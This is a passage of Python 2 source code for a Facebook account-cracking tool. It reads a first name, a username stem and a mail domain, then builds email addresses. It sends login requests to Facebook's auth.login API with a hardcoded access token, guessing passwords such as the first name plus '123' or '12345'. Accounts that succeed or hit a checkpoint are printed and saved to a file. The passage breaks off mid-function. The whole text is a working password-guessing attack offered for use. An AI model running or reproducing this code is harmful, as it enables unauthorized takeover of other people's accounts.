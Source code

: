 		
def crack_action2():
	bch = ""
	if bch =="":
		os.system('clear')
		print logo
		try:
			idlist = (".txt")
			kn=raw_input(" First Name : ")
			k=raw_input(" Username WIthout Digits : ")
			ac=raw_input(" Mail Domain : ")
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '[!] Error 404, please try again'
			raw_input('\n[ Press Enter To Go Back ]')
			menu()
	elif bch =="0":
		menu()
	else:
		print "[!] Fill in correctly"
		crack_action()
	xxx = str(len(id))
	psb ('[✓] Please wait, process is running ...')
	time.sleep(0.5)
	psb ('[!] To Stop Process Press CTRL Then Press z')
	time.sleep(0.5)
	print 50*"-"
	print
	
			
	def main(arg):
		global cpb,oks
		user = k+arg+ac
		try:
			pass1=kn+"123"
			data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			q = json.loads(data.text)
			if '407' in q['error_msg']:
				print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass1
				oks.append(user+pass1)
			else:
				if '405' in q["error_msg"]:
					print '[Checkpoint] ' + user + ' | ' + pass1
					cps = open("save/checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = kn+'12345'
					data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
					q = json.loads(data.text)
					if '407' in q['error_msg']:
						print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass2
						oks.append(user+pass2)
					else:
						if '405' in q["error_msg"]:
							print '[Checkpoint] ' + user + ' | ' + pass2
							cps = open("save/checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()